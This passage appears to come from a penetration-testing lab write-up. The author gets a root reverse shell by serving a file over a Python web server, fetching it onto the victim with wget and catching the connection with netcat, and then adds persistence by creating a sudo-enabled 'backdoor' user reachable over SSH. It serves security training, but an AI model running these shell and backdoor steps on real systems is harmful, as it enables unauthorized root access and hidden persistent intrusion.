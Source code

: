 Looks like an image.jpg was generated, as per the docs.

23) I set up my local listener again (`nc -lvnp 80`) and I move that file to the target machine by setting up a local webserver with python e.g. `python -m http.server 81`, and I use `wget` on the victim host to fetch it hoping to see an as-root shell on my listener terminal window...

```
---(kali?kali)-[~/Desktop/exploits]
--$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.49.51] from (UNKNOWN) [192.168.51.163] 57284
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# echo omgggggg
omgggggg
# ls -la
total 28
drwx------  4 root root 4096 Feb 27 05:02 .
drwxr-xr-x 20 root root 4096 Jan  7  2021 ..
lrwxrwxrwx  1 root root    9 Jun 10  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rwx------  1 root root   33 Feb 27 05:02 proof.txt
drwxr-xr-x  3 root root 4096 Jan  7  2021 snap
drwx------  2 root root 4096 Jan  7  2021 .ssh
# cat proof.txt
0fbdfad7c6331c664848786d12cc1d9f
```

Success! At last!


## Bonus (Persistence)

24) The usual... setting up a new linux user to walk through the front door via SSH:

```
# sudo useradd -m backdoor

# echo backdoor:hackerman | sudo chpasswd

# sudo usermod -aG sudo backdoor

# cat /etc/ssh/sshd_config | grep PasswordAuthentication
#PasswordAuthentication yes
# PasswordAuthentication.  Depending on your PAM configuration,
# PAM authentication, then enable this but set PasswordAuthentication
PasswordAuthentication yes
```

> Note that PasswordAuthentication was already enabled, so we didn't have to change the config nor restart the ssh server!

25) Testing access via ssh, and verifying we can become root:

